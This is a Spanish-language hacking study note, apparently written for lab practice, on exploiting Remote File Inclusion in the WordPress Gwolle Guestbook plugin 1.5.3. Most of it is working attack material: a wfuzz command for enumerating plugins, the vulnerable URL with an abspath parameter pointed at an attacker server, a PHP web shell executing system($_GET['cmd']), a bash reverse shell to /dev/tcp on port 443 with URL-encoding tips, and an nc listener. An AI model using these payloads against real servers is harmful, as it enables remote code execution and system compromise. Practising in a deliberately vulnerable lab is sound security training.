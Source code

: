 # RFI

Tags: #RFI 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

- **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

- **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)

```bash 
# Este tipo de ataques son convenientes cuando:
1. Podemos apuntar a un archivo php y este archivo interpreta ese lenguaje 
```

## Enumeración de plugin en WP

```bash 
# Forma de descubrir los plugins existentes en un Wordpress

❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/web-content/CMS/wp-plugins.fuzz.txt http://<IP>/FUZZ

	# c = Formato colorizado 
	# hc = Hide Code 404
	# t = Usar 200 peticiones al mismo tiempo
	# w = Ruta absoluta del diccionario a usar
```

## Wordpress plugin Gwolle

```bash 
# Esta vulnerabilidad de RFI se da en un Wordpress en la parte de su plugin 'Gwolle' 1.5.3

❯ http://IP/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<hacker_website>/
```

```bash 
# Del lado del atacante debemos de tener un servidor http ejecutandose con el archivo a compartir

❯ python3 -m http.server 80 
```

```bash 
# Archivo malicioso a compartir 
❯ wp-load.php 

<?php 
	system($_GET['cmd']);
?>
```

```bash 
# Por lo que ahora en la URL al final debemos de agregar '&cmd=' ya que no podemos tener dos '?cmd=' en una misma URL

?abspath=http://<hacker_website>/&cmd=whoami

# Podemos agregar una revershell en la URL de la siguiente manera:
❯ bash -c "bash -i >& /dev/tcp/IP/443 0>&1"
	# El '&' debemos de urlencodearlo = %26
❯ bash -c "bash -i >%26 /dev/tcp/IP/443 0>%261"
```

```bash 
# Nos ponemos en escucha en nuestra maquina de atacante para recibir la revershell
❯ nc -nlvp 443 
```